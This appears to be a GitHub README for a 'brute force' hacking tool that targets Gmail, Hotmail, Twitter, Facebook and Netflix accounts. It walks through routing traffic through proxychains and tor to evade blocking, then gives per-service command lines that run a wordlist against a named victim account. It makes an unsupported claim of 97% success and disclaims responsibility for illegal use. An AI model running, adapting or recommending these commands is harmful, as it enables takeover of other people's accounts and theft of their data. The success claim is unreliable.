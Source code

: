 
![2-logo](https://user-images.githubusercontent.com/109625649/188266494-12b481fc-4d9f-42f7-954d-be56c777b1c3.png)


# G-Tech Brute Force Tool


### I am NOT taking any responsibility!

# Brute Force for Social Accounts

Hacking toolkit for multible social media accounts. Brute force will give you the correct password almost everytime (97%) if you follow the steps below. Works without proxies well but sometimes it gives a error like this:

```bash 
File "/usr/lib/python3.10/smtplib.py", line 739, in login
    (code, resp) = self.auth(
  File "/usr/lib/python3.10/smtplib.py", line 642, in auth
    (code, resp) = self.docmd("AUTH", mechanism + " " + response)
  File "/usr/lib/python3.10/smtplib.py", line 432, in docmd
    return self.getreply()
  File "/usr/lib/python3.10/smtplib.py", line 405, in getreply
    raise SMTPServerDisconnected("Connection unexpectedly closed")
smtplib.SMTPServerDisconnected: Connection unexpectedly closed
 ```
 # Don't let that happen, lets set proxies.
 --------
 
 ## Setting up the proxy
 
 After clonning the repository in **/root** go to-
 ```bash 
 /root/G-Tech/Proxy/Proxy-List.txt
 ```
 Copy 4-5 proxy and go to terminal/terminal emulator
 
 ```bash 
 nano /etc/proxychains4.conf
 ```
 
 Set the proxies as raw. Then reboot your device and "service tor start", now we are fully ready to start hacking!
 --------
 
 # Starting the Tool
 
 G-Tech doesn't need dependencies pr requirements. All it needs is YOU to brute force.
 go to:
 
 ```bash
 /root/G-Tech
 ```
 Then open a terminal there and write:
 
 ```bash
 python3 G-Tech.py 
 ```
 It bring you a menu, 
 Now nano open all-codes.txt, all the codes are there. now you start brute-forcing;
 
 ## Gmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l wordlist here
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l single password here
 ```
 ## Hotmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l wordlist here
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l single password here
 ```
 
 ## Twitter Brute Forcing
 
 ```bash
  python3 G-Tech.py -T/--twitter accountnamehere -l wordlist here
  python3 G-Tech.py -T/--twitter accountnamehere -l single password here
  ```
  
  ## Facebook Brute Forcing
  
  ```bash
  python3 G-Tech.py -f/--facebook accountnamehere/username -l wordlist here
  python3 G-Tech.py -f/--facebook accountnamehere/username -l single password here
  ```
  
  ## Netflix Brute Forcing
  VPN Recommended (Like ProtonVPN, OpenVPN or NordVPN)
  
  ```bash
  python3 G-Tech.py -n/--netflix accountnamehere -l wordlist here
  python3 G-Tech.py -n/--netflix accountnamehere -l single password here
  ```
  
  
  
  
  
  
  That was all for me, I hope you won't anything illegal, because I am NOT taking any responsibility!
  
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 

 
